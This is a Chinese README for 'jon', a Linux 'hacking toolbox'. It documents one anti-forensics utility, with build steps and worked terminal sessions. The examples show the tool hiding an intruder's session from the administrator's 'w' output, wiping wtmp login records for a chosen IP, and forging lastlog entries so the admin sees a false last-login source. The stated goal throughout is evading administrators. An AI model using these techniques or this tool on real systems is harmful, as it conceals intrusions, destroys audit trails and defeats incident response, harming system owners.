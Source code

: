 # jon version 0.1
jon 是一款LINUX系统攻防工具箱，包含扫描，入侵，痕迹清理，木马，网站测试等各种黑客工具。

##安装方法(任选一种方法即可)
####方法一：
```Bash
[root@localhost jon]# yum -y install gcc autoconf cmake
[root@localhost jon]# aclocal
[root@localhost jon]# autoheader
[root@localhost jon]# automake --foreign --add-missing --copy
[root@localhost jon]# autoconf --warnings=all
[root@localhost jon]# ./configure
[root@localhost jon]# make
[root@localhost jon]# make install
```
####方法二：
```Bash
[root@localhost jon]# chmod +x autogen.sh
[root@localhost jon]# ./autogen.sh
```


##使用手册

#### -h 选项：用于指定要修改的文件的路径的，是个可选项。由于不同系统的日志存放路径不一样，可以手工指定。
```Bash
[root@localhost jon]# jon -h
jon v 0.1 for linux
Copyright (C) 2003 by jon <2182619@qq.com>

jon [-f utmpfile] -u username ip               hide username from ip in utmp file
jon [-f wtmpfile] -w username ip               hide username from ip in wtmp file
jon [-f lastlogfile] -m username ip ttyname YYYY[:MM[:DD[:hh[:mm[:ss]]]]]  modify lastlog info
```

#### -f 选项：用于指定要修改的文件的路径的，是个可选项。由于不同系统的日志存放路径不一样，可以手工指定。
默认的日志存放地点是：
```c
#define UTMPFILE "/var/run/utmp"
#define WTMPFILE "/var/log/wtmp"
#define LASTLOGFILE "/var/log/lastlog"
```

#### -u 选项: 有时候你和管理员同时在线，管理员w一下就能看到你了。使用-u选项用户躲避管理员w查看，如下：
```Bash
[root@localhost jon]# w
 21:27:25 up 5 days, 13:48,  4 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM            LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -               Fri14   18:24m  0.33s  0.33s -bash
root     pts/3    192.168.1.8     20:21    6:22   0.04s  0.04s -bash
root     pts/2    192.168.1.8     20:06    0.00s  0.13s  0.00s w
root     pts/4    192.168.1.8     20:21    5:52   0.03s  0.03s -bash

我们是从192.168.1.8机器连上来的，现在隐藏下：
[root@localhost jon]# jon -u root 192.168.1.8
[root@localhost jon]# w
 21:27:46 up 5 days, 13:48,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM            LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -               Fri14   18:24m  0.33s  0.33s -bash
```

#### -w 选项:用于清除你的登录日志，现在上的linux日志清除工具做的很粗燥啊，这个可以指定清除某些ip过来的机器。
```Bash
[root@localhost jon]# last
root     tty1                         Wed Oct  1 21:30 - 21:30  (00:00)
root     pts/4        192.168.1.8     Wed Oct  1 21:21   still logged in
root     pts/3        192.168.1.8     Wed Oct  1 21:21   still logged in
wtmp begins Wed Oct  1 06:01:46 2008

清除192.168.1.8的登录日志：
[root@localhost jon]# jon -w root 192.168.1.8
[root@localhost jon]# last
root     tty1                         Wed Oct  1 21:30 - 21:30  (00:00)
wtmp begins Wed Oct  1 06:01:46 2008
```

#### -m 选项:用于修改上次登录地点，我们使用ssh登录的时候可能会注意到这点
```Bash
login as: root
Sent username "root"
root@192.168.1.28's password:
Last login: Wed Oct  1 21:31:40 2008 from 192.168.80.45

如果不修改lastlog的话，管理员下次登录就会提示从我们的机器IP登录。使用-m选项可以编辑这个选项：
[root@localhost jon]# jon -m root 192.168.0.0 tty10 2008:1:1:1:1:1
[root@localhost jon]#

当然，这只是个举例，在使用中各位请根据具体信息修改，下次管理员登录，登录界面就成了
login as: root
Sent username "root"
root@192.168.1.28's password:
Last login: Tue Jan  1 01:01:01 2008 from 192.168.0.0
```